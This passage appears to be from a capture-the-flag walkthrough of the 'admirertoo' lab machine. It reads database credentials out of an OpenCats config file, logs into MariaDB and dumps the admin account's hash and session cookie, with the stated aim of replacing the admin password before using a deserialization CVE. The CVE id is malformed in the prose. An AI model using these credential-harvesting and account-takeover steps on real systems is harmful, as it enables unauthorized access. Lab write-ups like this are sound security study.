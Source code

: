 Browsing to http://localhost:9000/ we see OpenCats website and version 0.9.5.2:
![[admirertoo/images/image7.png]]

This version has a deserialization vulnerability, [CVE2021-25-294](https://www.cvedetails.com/cve/CVE-2021-25294/), that can lead to remote command execution. But we need to authenticate in the web application first.

### OpenCats database
We can find credentials for the website database looking at `/opt/opencats/config.php`:
```bash
/* Database configuration. */                                                                                                                               
define('DATABASE_USER', 'cats');                                                                                                                            
define('DATABASE_PASS', 'adm1r3r0fc4ts');                                                                                                                   
define('DATABASE_HOST', 'localhost');                                                                                                                       
define('DATABASE_NAME', 'cats_dev');
```

We can now access the database and update the `admin` password with our own.
```bash
jennifer@admirertoo:/opt/opencats$ mysql -u cats -p
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 2926
Server version: 10.3.31-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> use cats_dev;
Database changed
MariaDB [cats_dev]> select * from user\G                                                           
*************************** 1. row ***************************                                                           
                  user_id: 1                                                                                             
                  site_id: 1                                                                                                                                
                user_name: admin                                                                                                                            
                    email: admin@testdomain.com                                                                                                             
                 password: dfa2a420a4e48de6fe481c90e295fe97                                                                                                 
             access_level: 500                                                                                                                              
      can_change_password: 1                                                                                                                                
             is_test_user: 0                                                                                                                                
                last_name: Administrator
               first_name: CATS
                  is_demo: 0
               categories: NULL
           session_cookie: CATS=lbvars2nn2tk51l4t58nnkc4ut

```
